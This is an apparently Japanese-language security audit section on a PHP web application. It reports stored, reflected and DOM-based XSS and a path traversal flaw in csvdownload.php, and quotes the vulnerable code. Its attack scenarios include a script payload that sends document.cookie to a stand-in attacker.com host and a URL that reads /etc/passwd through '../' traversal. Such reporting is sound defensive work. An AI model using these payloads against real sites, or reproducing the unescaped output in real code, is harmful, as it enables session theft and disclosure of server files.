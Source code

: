 
### 2.5. クロスサイトスクリプティング (XSS)

**危険度: 高い**

#### 概要
ユーザーの入力値をWebページに出力する際、適切なエスケープ処理が行われていない箇所が複数存在します。

#### 詳細
**1. 格納型XSS in `readmail.php`**
メール本文(`$message->message`)が出力される際にエスケープされていません。
```php
<pre><?php print($message->message); ?></pre>
```
**攻撃シナリオ例:** 攻撃者が管理者宛に「`<script>fetch('https://attacker.com/?cookie=' + document.cookie)</script>`」という内容のメールを送信します。管理者がこのメールを`readmail.php`で開くと、管理者のセッションクッキーが攻撃者のサーバーに送信されます。攻撃者はそのクッキーを使い、管理者としてログインします。

**2. 反射型XSS in `login.php`**
URLパラメータ `text` の値がエスケープされずに出力されています。
```php
<?php if(isset($_GET["text"])){echo '<...>' . $_GET["text"] . '</...>';} ?>
```
**攻撃シナリオ例:** 攻撃者は、偽のログインフォームを表示するスクリプトを埋め込んだURL (`http://<対象サーバーのURL>/login.php?text=<script>...偽フォーム表示...</script>`) を作成し、フィッシングメールなどでユーザーにクリックさせます。ユーザーが入力したIDとパスワードは攻撃者のサーバーに送信されます。

**3. DOMベースXSS in `coupon.php`**
URLのクエリパラメータが検証なしにJavaScriptで解釈され、DOMに書き込まれています。
```javascript
function setCoupon( coupon ) {
    $("#code").val( coupon.code ); // 脆弱な箇所
}
```
**攻撃シナリオ例:** 攻撃者は `http://<対象サーバーのURL>/coupon.php?coupon[code]="><script>alert(document.cookie)</script>` のようなURLを作成し、ユーザーにクリックさせます。ユーザーのブラウザ上でスクリプトが実行され、セッションクッキーなどの情報が漏洩します。

---

### 2.6. パストラバーサル

**危険度: 高い**

#### 概要
`web/src/csvdownload.php` で、ファイル名を外部から指定できますが、検証が不十分なためサーバー上の任意のファイルをダウンロード可能です。

#### 詳細
`filename` パラメータに `../` を含めることで、意図しないディレクトリのファイルにアクセスできます。

#### 攻撃シナリオ例
攻撃者は以下のURLにアクセスすることで、サーバーのユーザー情報を記した `/etc/passwd` ファイルをダウンロードします。
```
http://<対象サーバーのURL>/csvdownload.php?filename=../../../../../../etc/passwd
```

---
